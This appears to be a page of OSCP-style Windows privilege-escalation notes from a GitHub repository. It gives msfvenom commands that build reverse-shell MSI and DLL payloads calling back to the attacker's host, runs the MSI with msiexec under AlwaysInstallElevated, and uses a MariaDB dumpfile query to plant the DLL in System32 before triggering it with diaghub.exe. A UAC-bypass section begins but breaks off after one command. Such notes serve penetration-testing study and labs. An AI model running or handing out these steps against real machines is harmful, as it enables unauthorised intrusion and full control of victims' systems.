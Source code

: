 ### AlwaysInstallElevated

Upload any malicious .msi file and run that and get the system level access !!

```powershell
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f msi -o reverse.msi
```

**Target system: **
```powershell
PS C:\Users\Public\temp> msiexec /quiet /qn /i C:\Users\Public\temp\reverse.msi
```
Listen on 443 and get the Elevated Shell

### Windows PrivEsc Write Access

Suppose we are have read and write access to the Adminsitrator and we can alos read the Proof.txt flag but we are unable to get the shell This method will works there !!

Take an example we are `apache` [Low Priv] user and we have `SQL server` on it and that sql server have `Admistrative permissions` and we can Write the Files as `Admins` so Using the diaghub dll method we can get the Shell !!

First Create a Malicious `test.dll` file
```powershell
# msfvenom --platform windows --arch x64 -p windows/x64/shell_reverse_tcp LHOST=tun0 EXICFUNC=THREAD LPORT=443 -f dll -o test.dll
```
Now upload the [diaghub.exe] (https://github.com/xct/diaghub/releases/download/0.1/diaghub.exe) binary to the same location where the test.dll is there !!
looks like :

![image](https://github.com/kullaisec/OSCP/assets/99985908/5c642bf3-4de1-4eb6-83df-6b66c4889dcd)

Now go to the mysql service and try to place the `test.dll` on the `Windows\system32\` path ...

example
```sql
MariaDB [(none)]> select load_file('C:\\\\test\\temp\\test.dll') into dumpfile 'C:\\\\Windows\\System32\\test.dll';
```
you can see we are able to do this now `test.dll` file is in the `System32\` path !!

```powershell
PS C:\test\temp> .\diaghub.exe C:\test\temp test.dll
```

And listen on 443 we will get elevated shell !!

More methods reference : https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#diaghub

### UAC Bypass

Suppose you are part of Administrator Group But you are unable to perform commands as a High Level User then there may be chances of UAC interruption we can bypass that !!
```powershell
PS> whoami /all   --> Mandatory Label\Medium Mandatory Level
```
